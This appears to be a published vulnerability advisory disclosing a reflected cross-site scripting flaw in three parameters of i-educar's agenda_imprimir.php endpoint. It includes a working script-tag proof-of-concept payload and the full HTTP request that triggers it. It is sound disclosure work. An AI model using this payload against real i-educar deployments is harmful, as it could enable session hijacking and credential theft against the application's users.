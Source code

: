 # Cross-Site Scripting (XSS) Reflected endpoint `agenda_imprimir.php` in multiples parameters

---

## Summary

A Reflected Cross-Site Scripting (XSS) vulnerability was identified in the `agenda_imprimir.php` endpoint of the _i-educar_ application. This vulnerability allows attackers to inject malicious scripts into the `tipoacao, data_inicio and data_fim` parameters. The payload is reflected in the application’s HTTP response without proper sanitization, leading to immediate execution in the victim’s browser.

---

## Details

**Vulnerable Endpoint:** `GET /agenda_imprimir.php`  
**Parameter:** `tipoacao, data_inicio and data_fim`

The application fails to properly validate and sanitize user input in the `tipoacao` parameter. An attacker can craft a malicious URL containing a JavaScript payload, which is reflected back in the server’s response and executed when a victim accesses the crafted link.

---

## PoC

**Payload:**

`"><script>alert('XSS-PoC')</script>`

### Steps to Reproduce:

1. Log in to the _i-educar_ application.
    
2. Make a request using Caido similar to the one below.

```
POST /intranet/agenda_imprimir.php?cod_agenda=2 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/intranet/agenda_imprimir.php?cod_agenda=2
Cookie: [PUT NEW COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

tipoacao=Novo"><script>alert('XSS-PoC')</script>&data_inicio=02%2F02%2F2025&data_fim=03%2F02%2F2025&impressora=0
```

<img width="840" height="585" alt="Pasted image 20250816234245" src="https://github.com/user-attachments/assets/d537a7f4-9d69-41a3-9cf3-46a5fb812a2c" />


The result:

<img width="740" height="533" alt="Pasted image 20250816234414" src="https://github.com/user-attachments/assets/087c2fad-1b66-4bcf-bd30-af7db730b493" />


the same vulnerability occurs in parameters `data_inicio and data_fim`.

---

## Impact

Reflected XSS vulnerabilities can lead to severe consequences, including:

- **Session hijacking:** Theft of cookies or authentication tokens
    
- **Credential theft:** Capturing sensitive user credentials via injected scripts
    
- **Malware delivery:** Redirecting victims to malicious downloads or exploit pages
    
- **Phishing attacks:** Displaying deceptive forms or content to steal user data
    
- **Reputation damage:** Exploiting trust between the application and its users
    
- **Client-side manipulation:** Altering the application’s content and behavior dynamically


## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)
